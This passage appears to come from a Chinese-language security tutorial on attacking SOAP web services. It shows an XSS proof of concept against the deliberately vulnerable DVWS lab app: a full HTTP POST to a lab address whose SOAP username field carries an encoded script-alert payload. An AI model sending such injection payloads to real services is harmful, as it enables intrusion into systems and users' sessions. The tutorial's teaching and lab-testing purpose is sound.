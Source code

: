 ### XSS 攻击

跨站脚本 (XSS) 攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在 SOAP 中的 XSS 其实和传统的 Web 应用中的 XSS 也相差不大，只是数据包的构造方式有一些差别，在 DVWS 管理员用户搜索区域中存在 XSS 漏洞，我们可以发送 HTML 编码后的 JavaScript 到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```bash
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1706957905-b2fa418dba587e902a1af520cacc3808.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202093948-f36e0e18-c16b-1.png)
